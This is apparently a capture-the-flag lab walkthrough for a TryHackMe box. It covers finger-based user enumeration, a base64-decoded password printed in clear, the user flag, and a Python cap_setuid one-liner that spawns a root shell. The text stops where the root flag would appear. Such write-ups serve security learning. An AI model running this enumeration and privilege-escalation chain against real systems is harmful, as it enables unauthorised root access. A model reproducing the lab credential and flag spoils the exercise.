 ### 🔍 **Step-by-Step Walkthrough**

#### 1. **Enumerated ports:**

22 (SSH), 79 (finger), 80 (http).

---

#### 2. **Used finger enumeration:**

```bash
finger @10.10.x.x
```

✅ Found users: magnus, fabiano, hikaru.

---

#### 3. **Fingered fabiano:**

✅ Revealed base64 encoded .plan field.

#### 4. **Decoded credentials:**

```
echo "base64string" | base64 -d
```

✅ fabiano\:o3jVTktarGQI07q

---

#### 5. **SSH as fabiano, retrieved user flag:**

```
THM{bishop_to_c4_check}
```

---

#### 6. **Privilege escalation**

Checked capabilities:

```bash
getcap -r / 2>/dev/null
```

✅ Found cap\_setuid=ep on /usr/bin/python3.10.

---

#### 7. **Exploited capability:**

```bash
python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

✅ Got root, retrieved root flag:
